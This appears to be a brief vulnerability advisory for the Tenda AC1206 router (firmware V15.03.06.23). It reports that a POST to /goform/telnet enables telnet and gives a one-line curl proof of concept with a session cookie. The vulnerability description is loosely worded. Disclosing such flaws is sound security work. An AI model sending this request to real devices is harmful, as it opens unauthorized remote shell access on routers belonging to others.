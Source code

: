 ## Tenda AC12 telnet

### Overview

* Vendor: Tenda

* Product: Tenda AC1206
* Version:  V15.03.06.23

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip

### Vulnerability details

An issue was discovered in Tenda AC1206 V15.03.06.23. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.![image](./img/1.png)

#### PoC

```
 curl ‐i ‐X POST http://192.168.0.1/goform/telnet ‐d aa=aa ‐‐cookie "password=f6df9d1c0835927e379ccc302
 b848f4aouh1qw"
```

![image-20250413210610225](./img/2.png)
